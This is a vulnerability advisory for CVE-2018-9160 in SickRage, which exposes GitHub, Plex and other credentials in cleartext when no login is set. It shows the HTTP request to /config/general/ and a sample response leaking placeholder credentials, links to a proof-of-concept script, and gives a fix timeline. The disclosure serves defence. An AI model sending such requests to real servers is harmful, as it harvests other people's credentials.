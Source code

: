 # Sickrage cleartext github credentials CVE-2018-9160
---------------------------------------------------------------------

1. About

---------------------------------------------------------------------
Exploit Title: SickRage Clear-Text Credentials in HTTP Response  
Date: 2018-04-01  
Exploit Author: Sven Fassbender  
Contact: https://twitter.com/mezdanak  
Vendor Homepage: https://sickrage.github.io  
Software Link: https://github.com/SickRage/SickRage  
Version: < v2018.03.09-1  
CVE : CVE-2018-9160  
Category: webapps  

---------------------------------------------------------------------

2. Background information

---------------------------------------------------------------------
"SickRage is an automatic Video Library Manager for TV Shows.  
It watches for new episodes of your favourite shows, and when they are posted it does its magic:   
automatic torrent/nzb searching, downloading, and processing at the qualities you want." --extract from https://sickrage.github.io  

---------------------------------------------------------------------

3. Vulnerability description

---------------------------------------------------------------------
SickRage returns clear-text credentials for e.g. GitHub, AniDB, Kodi, Plex etc. in HTTP responses.  
Prerequisite is that the user did not set a username and password for their SickRage installation. (not enforced, default)  
  
HTTP request:  

```html
GET /config/general/ HTTP/1.1  
Host: 192.168.1.13:8081  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  
Accept-Language: de,en-US;q=0.7,en;q=0.3  
Accept-Encoding: gzip, deflate  
Referer: http://192.168.1.13:8081/config/backuprestore/  
DNT: 1  
Connection: close  
Upgrade-Insecure-Requests: 1  
```
  
  
HTTP response:  

```html
HTTP/1.1 200 OK  
Content-Length: 113397  
Vary: Accept-Encoding  
Server: TornadoServer/4.5.1  
Etag: "e5c29fe99abcd01731bec1afec0e618195f1ae37"  
Date: Fri, 02 Mar 2018 10:47:51 GMT  
Content-Type: text/html; charset=UTF-8  
```

  
```html
<!DOCTYPE html>  
<html lang="nl_NL">  
    <head>  
		[...]  
        <input type="text" name="git_username" id="git_username" value="email@example.com" class="form-control input-sm input300" autocapitalize="off" autocomplete="no" />  
        [...]  
        <input type="password" name="git_password" id="git_password" value="supersecretpassword" class="form-control input-sm input300" autocomplete="no" autocapitalize="off" />  
		[...]  
        </div>  
    </body>  
</html>  
```

---------------------------------------------------------------------

4. Proof of Concept

---------------------------------------------------------------------
https://github.com/mechanico/sickrageWTF/blob/master/get_github_creds_sickrage.py  

---------------------------------------------------------------------

5. Timeline

---------------------------------------------------------------------
[2018-03-07] Vulnerability discovered  
[2018-03-08] Vendor contacted  
[2018-03-08] Vendor replied  
[2018-03-09] Vulnerability fixed. (https://github.com/SickRage/SickRage/compare/v2018.02.26-2...v2018.03.09-1)  
  
---------------------------------------------------------------------

6. Recommendation

---------------------------------------------------------------------
Update the SickRage installation on v2018.03.09-1 or later.  
Protect the access to the web application with proper user credentials.  
  
---------------------------------------------------------------------
